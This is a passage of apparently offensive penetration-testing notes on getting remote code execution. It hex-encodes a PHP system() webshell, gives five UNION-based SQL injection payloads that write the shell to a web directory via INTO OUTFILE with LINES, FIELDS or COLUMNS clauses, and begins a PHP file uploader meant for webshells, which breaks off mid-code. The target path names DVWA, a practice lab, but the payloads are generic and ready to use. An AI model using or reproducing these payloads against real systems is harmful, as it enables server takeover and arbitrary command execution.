 `<insert_screenshosts>`

You can of course encode it with hexadecimal.

```bash
$ basenc -w 0 --base16 <<< "<?php system(\$_GET['cmd']); ?>" | sed 's/^/0x/'
0x3C3F7068702073797374656D28245F4745545B27636D64275D293B203F3E0A

$ od -A n -t x1 -v <<< "<?php system(\$_GET['cmd']); ?>" | tr -d "[:space:]" | sed 's/^/0x/'
0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e0a
```

- Then combine it with SQL injection.

```sql
' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

- Write a webshell via `LINES TERMINATED BY` SQL query.

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php' LINES TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e#
```

- Write a webshell via `LINES STARTING BY` SQL query.

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php' LINES STARTING BY 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e#
```

- Write a webshell via `FIELDS TERMINATED BY` SQL query.

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php' FIELDS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e#
```

- Write a webshell via `COLUMNS TERMINATED BY` SQL query.

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/dvwa/shell.php' COLUMNS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e#
```

##### 4.2.5.1.2 - Uploader

You can use a file uploader that allows you to upload anything such as custom [[Webshells Payloads|webshells]].

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
```